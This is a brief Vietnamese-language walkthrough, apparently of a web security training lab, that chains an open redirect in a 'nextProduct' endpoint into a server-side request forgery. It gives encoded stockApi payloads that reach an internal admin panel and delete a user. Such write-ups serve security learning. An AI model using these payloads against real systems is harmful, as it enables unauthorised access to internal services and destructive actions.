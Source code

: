 ## SSRF with filter bypass via open redirection vulnerability

Bắt lại request checkStock ta sẽ có value của param stockApi là **/product/stock/check?productId=1&storeId=1**

Ở description Lab bảo là phải đổi url tới địa chỉ 192.168.0.12:8080/admin

![](/imgs/CSRF/18.png?raw=true)

Cho nên mình sẽ lợi dụng chức năng next product có sẵn param để redirect sang luôn.

```markdown
**GET /product/nextProduct?currentProductId=1&path=/product?productId=2**
```

Cho nên stockApi của request sẽ là

```markdown
**stockApi=/product/nextProduct?currentProductId=1%26path%3dhttp%3a//192.168.0.12%3a8080/admin**
```

![](/imgs/CSRF/19.png?raw=true)

Tiến hành delete user carlos

```markdown
**stockApi=/product/nextProduct?currentProductId=1%26path%3dhttp%3a//192.168.0.12%3a8080/admin/delete?username=carlos**
```

![](/imgs/CSRF/20.png?raw=true)


